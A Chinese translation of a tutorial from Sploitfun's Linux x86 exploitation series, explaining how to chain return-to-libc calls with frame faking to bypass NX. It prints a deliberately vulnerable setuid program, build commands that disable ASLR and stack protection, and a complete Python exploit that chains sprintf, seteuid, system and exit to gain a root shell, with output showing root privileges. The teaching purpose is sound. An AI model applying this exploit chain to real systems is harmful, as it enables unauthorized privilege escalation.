


CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-Return-to-libc链接绕过NX](http://www.csyssec.org/20170101/chainingreturntolibc)》与作者信息：CSysSec出品  

VM Setup: Ubuntu 12.04(x86) 

## 什么是Return-to-libc链接

在前文中可以看出，攻击者需要调用多个libc函数才能成功利用漏洞。一种链接libc函数的简单方法就是将不同libc函数依次放在栈中。但由于函数参数的原因，这是不可能的。现在你可能还不明白，没关系，继续往下读就好。  

漏洞代码:  

``` c
//vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */
 strcpy(buf,argv[1]);
 printf("%s",buf);
 fflush(stdout);
 return 0;
}
```
注意: 上述代码和前文中的(vuln_priv.c)一样。  

编译命令:

``` bash
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -g -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
正如前文所说，链接seteuid,system和exit函数能允许我们利用漏洞代码”vuln”。但并没有这么简单直接，主要在于下面这两个问题：  

1.攻击者需要将两个libc函数参数或者其中一个libc函数参数与另一个libc函数地址放在栈的同一位置。显然这是不可能的(如下图所示)  
2.seteuid_arg必须为0.由于我们的缓冲区溢出是由strcpy操作引起的，0变成了一个不好的字符。比如，strcpy函数不会将0之后的字符拷贝到栈中。  
  


我们来看看如何解决上述两个问题。  

问题1: 为解决这个问题，Nergal在 [phrack](http://phrack.org/issues/58/4.html) 中提出了两个聪明的技术  

* ESP上升(ESP Lifting)
* 帧欺骗(Frame fakeing)
由于ESP lifting技术要求二进制文件在编译的时候不能设置帧指针(-fomit-frame-pointer)，这里我们只谈帧欺骗技术。 由于我们的二进制文件(vuln)含有帧指针，只好采用帧欺骗技术。     

## 什么是帧欺骗

这项技术不去覆盖返回地址，而是直接覆盖libc函数地址(这个例子中的seteuid函数)，我们采用”leave ret”指令来覆盖。 这让攻击者有机会将函数参数存放在栈中而不必有任何交叉，而且能调用相应的libc函数，并不会带来任何问题。  

栈布局 如下面栈布局所示，帧指针攻击者溢出栈并成功链接libc函数: seteuid, system与exit：  
   


上图中红色强调的部分是”leave ret”指令调用其上方libc函数的返回地址。举个例子，第一条”leave ret”指令(位于栈地址0xbffff1fc处)调用seteuid()，第二条”leave ret”指令(位于栈地址0xbffff20c处)调用system()，第三条”leave ret”指令(位于栈地址0xbffff21c处)调用exit().  

## leave ret指令是如何调用其上方libc函数的 

为了回答这个问题，首先我们要了解”leave”指令。一条”leave”指令可以翻译成:  

```
mov ebp,esp            //esp = ebp
pop ebp                //ebp = *esp
```
我们来反汇编main()函数，以便更进一步了解“leave ret”指令

``` 
(gdb) disassemble main
Dump of assembler code for function main:
  ...
  0x0804851c <+88>: leave                  //mov ebp, esp; pop ebp;
  0x0804851d <+89>: ret                    //return
End of assembler dump.
(gdb)
```
Main尾声代码:  

如上述栈布局所示，在main函数尾声代码执行之前，攻击者已经溢出栈并用fake_ebp0(0xbffff204)覆盖了main函数的ebp，以及利用”leave ret”指令地址(0x0804851c)覆盖了其返回地址。 现在当CPU要执行main函数的尾声代码时，EIP指向text地址0x0804851c（”leave ret”)。在执行过程中，会发生下面的事情：  

* ‘leave’修改了下面的寄存器
 	- esp = ebp = 0xbffff1f8
 	- ebp = 0xbffff204, esp = 0xbffff1fc
* ‘ret’执行”leave ret”指令(位于栈地址0xbffff1fc处)

seteuid: 现在EIP又重新指向text地址0x0804851c(“leave ret”). 在执行过程中，会发生下面的事情：  

* ‘leave’修改了下面的寄存器
 	- esp = ebp = 0xbffff204
 	- ebp = 0xbffff214, esp =0xbffff208
* ‘ret’执行seteuid()(位于栈地址0xbffff208). 为了能成功调用seteuid,seteuid_arg必须放在栈地址0xbffff210的偏移量8处(比如seteuid_add）
* 调用seteuid()后，”leave ret”指令(位于栈地址0xbffff20c处)开始执行

可以从上面的栈布局看出，执行上述过程，栈已经按照攻击者的意图设置好，system和exit函数都能得到执行。  

问题2: 在我们的例子中，seteuid必须为0. 但0已经变成一个不好的字符，如何将0写在栈地址0xbffff210处呢？Nergal的同一篇文中讲了一个简单的方法。在链接libc相关函数时，前几个调用必须是strcpy函数(其将一个NULL字节拷贝到seteuid_arg在栈中的位置)。  

注意: 但不幸地是我的libc.so.6中strcpy函数的地址是0xb7ea6200。 libc函数地址本身包含一个NULL字节(不好的字符!)。 因此，strcpy不能成功地利用漏洞代码。sprintf（函数地址是0xb7e6e8d0)可以用来替代strcpy。使用sprintf时，NULL字节被拷贝到seteuid_arg在栈中的位置。  

因此链接下面的libc函数可以解决上面提到的两个问题并成功获取root shell:  

sprintf|sprintf|sprintf|sprintf|seteuid|system|exit  
漏洞利用代码:  

``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
fake_ebp0 = 0xbffff1a0
fake_ebp1 = 0xbffff1b8
fake_ebp2 = 0xbffff1d0
fake_ebp3 = 0xbffff1e8
fake_ebp4 = 0xbffff204
fake_ebp5 = 0xbffff214
fake_ebp6 = 0xbffff224
fake_ebp7 = 0xbffff234
leave_ret = 0x0804851c
sprintf_addr = 0xb7e6e8d0
seteuid_addr = 0xb7f09720
system_addr = 0xb7e61060
exit_addr = 0xb7e54be0
sprintf_arg1 = 0xbffff210
sprintf_arg2 = 0x80485f0
sprintf_arg3 = 0xbffff23c
system_arg = 0x804829d
exit_arg = 0xffffffff
#endianess convertion
def conv(num):
 return struct.pack("<I",num)
buf = "A"*264  
buf += conv(fake_ebp0) 
buf += conv(leave_ret) 
#Below four stack frames are for sprintf (to setup seteuid arg )
buf += conv(fake_ebp1) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp2) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp3) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp4) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3)
#Dummy - To avoid null byte in fake_ebp4. 
buf += "X" * 4 
#Below stack frame is for seteuid
buf += conv(fake_ebp5) 
buf += conv(seteuid_addr) 
buf += conv(leave_ret) 
#Dummy - This arg is zero'd by above four sprintf calls
buf += "Y" * 4 
#Below stack frame is for system
buf += conv(fake_ebp6) 
buf += conv(system_addr) 
buf += conv(leave_ret) 
buf += conv(system_arg) 
#Below stack frame is for exit
buf += conv(fake_ebp7) 
buf += conv(exit_addr) 
buf += conv(leave_ret) 
buf += conv(exit_arg) 
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上面的漏洞利用代码就可以拿到root shell!!!

``` bash
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����������������\��������������\��������������\�������������\��� �������AAAA0�������Ѕ
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
现在已经成功绕过NX,下一篇文章让我们来看看如果绕过ASLR.  